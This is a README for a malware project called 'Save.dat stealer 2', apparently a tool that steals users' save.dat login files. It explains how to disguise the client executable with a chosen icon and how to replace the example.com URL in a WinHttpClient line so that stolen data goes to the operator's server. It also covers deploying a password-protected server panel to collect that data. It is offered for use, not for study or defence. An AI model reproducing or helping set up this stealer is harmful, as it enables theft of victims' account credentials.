 # Save.dat-stealer-2
New good-looking save.dat stealer with simple administration.

# Here is how to sutup everything: 
# Client - setup:

**Steps to create app with icon:**  
1.) Change these lines in Save.dat stealer 2.rc (in folder Save.dat stealer 2):  
     //IDI_SAVEDATSTEALER2       ICON         "Save.dat stealer 2.ico"  
     //IDI_SMALL               ICON         "small.ico"  
   
   To:  
     IDI_SAVEDATSTEALER2       ICON         "Save.dat stealer 2.ico"  
     IDI_SMALL               ICON         "small.ico"  

2.) Change files Save.dat stealer 2.ico and small.ico to icon which you wish to use!  
    Please remember to keep their orginal sizes, so Save.dat stealer 2.ico to 32x32 and small.ico to 16x16!  




**Steps to set your server URL:**  
1.) Open project file in visual studio ( Save.dat stealer 2.sln )  

2.) Find example url and change it to yours.  
    The line which you need to change is WinHttpClient client(L"http://example.com/api/run.php"); // here put url to server part  
    And in the fact you just need to change example.com to your domain.  
    
    
# Server - setup:
1.) Copy all server files to your webpage folder.  
2.) Go to main page and create password for your website.  
3.) Now you are ready to use it!  
